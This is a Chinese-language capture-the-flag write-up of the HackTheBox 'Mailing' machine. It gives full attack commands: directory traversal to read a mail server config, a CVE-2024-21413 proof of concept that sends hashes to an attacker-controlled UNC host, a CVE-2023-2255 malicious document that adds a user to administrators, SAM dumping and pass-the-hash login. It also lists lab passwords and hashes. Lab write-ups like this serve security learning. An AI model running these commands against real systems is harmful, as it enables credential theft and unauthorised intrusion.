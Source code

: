 ```yaml
---
title: "HTB-Mailing"
date: 2024-09-05
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "windows"
---
```


## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Nmap

```
nmap -A -O -Pn mailing.htb
```

![](./images/image-66.png)

开放端口：`25`、`80`、`110`、`135`、`139`、`143`、`445`、`465`、`587`、`993`

Server：`hMailServer`

### Dirsearch

```
dirsearch -u mailing.htb -t 50
```

![](./images/image-67.png)

进入`http://mailing.htb`

点击Download，就是/download.php

![](./images/image-68.png)

## Directory Traversal

进行抓包，发现可以下载文件

![](./images/image-69.png)

尝试修改`file`参数，成功得到`hosts`文件

![](./images/image-70.png)

目前这个php文件至少能够读取文件

由于刚才`Nmap` ，扫描出来邮件服务是`hMailServer`

经过搜索以及`ChatGPT`，获取到路径为：`C:\Program Files (x86)\hMailServer\Bin\hMailServer.ini`

![](./images/image-71.png)

MD5解密后获得明文：`homenetworkingadministrator`

![](./images/image-72.png)

回到之前的`instruction.pdf`，在ending那里，发送第一封邮件之后，Maya会读取我们的邮件

![](./images/image-73.png)

通过pop3端口连接邮箱，不过里面什么都没有

![](./images/image-74.png)

## CVE-2024-21413

Github：

先打开监听器

```
responder -I tun0 -v
```

运行`poc`

```
python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url '\\10.10.16.8\PoC' --subject "Hello world"
```

![](./images/image-76.png)

![](./images/image-77.png)

在监听器处收到hash，尝试解密

![](./images/image-78.png)

得到maya的密码：`m4y4ngs4ri`

由于ssh端口没有开，不过可以测试winrm的端口`5985`

![](./images/image-79.png)

## Evil Winrm

```
evil-winrm -i mailing.htb -u maya -p 'm4y4ngs4ri'
```

![](./images/image-80.png)

成功进入。

在桌面拿到`user.txt`

![](./images/image-81.png)

## Privilege Escalation

在`Program Files` 文件夹下发现一个`LibreOffice`

![](./images/image-82.png)

将其License文件下载下来看

![](./images/image-83.png)

在`readme`中发现版本信息

![](./images/image-84.png)

### CVE-2023-2255

Github：[elweth-sec/CVE-2023-2255: CVE-2023-2255 Libre Office (github.com)](https://github.com/elweth-sec/CVE-2023-2255)

发现C盘下面的`Important Document`文件夹具有特殊权限

![](./images/image-85.png)

管理员和系统账户对目录有完全控制权限。Maya用户和已认证用户对目录具有修改权限。

```
python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'exploit.odt'
```

直接把maya加到管理员组里面去

![](./images/image-90.png)

稍等一会

![](./images/image-91.png)

使用`crackmapexec`来获取localadmin的哈希值

```
crackmapexec smb 10.10.11.14 -u maya -p "m4y4ngs4ri" --sam
```

![](./images/image-92.png)

最后使用`impacket-wmiexec`传入hash值登录

```
impacket-wmiexec localadmin@mailing.htb -hashes "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae"
```

![](./images/image-93.png)

## Summary

CVE-2024-21413获取hash原理：在邮件的 `--url` 参数中指定了一个 UNC 路径（`\\10.10.16.8\PoC`）。UNC 路径通常用于网络共享，当目标系统处理这个路径时，它会尝试与指定的服务器（`10.10.16.8`）建立连接。

在 Windows 系统中，当系统尝试访问 UNC 路径时，它可能会自动尝试进行身份验证。这个身份验证过程中，Windows 会发送 NTLMv2 哈希来验证用户身份。如果 `responder` 正在监听这个网络请求，它可以捕获这些哈希值。

如果这些哈希值能够被破解，那么就能够登录相应的服务或者系统。

NTLM 哈希认证机制的特性：NTLM 认证通常与 SMB协议配合使用，通常会使用 TCP 445 端口进行通信。NTLM 认证的机制允许通过密码的哈希值进行身份验证，`impacket-wmiexec`使用 NT 哈希（通过 Pass-the-Hash 技术）来模拟用户身份，从而无需输入密码就能执行远程命令。

windows的题目还是接触太少了😥
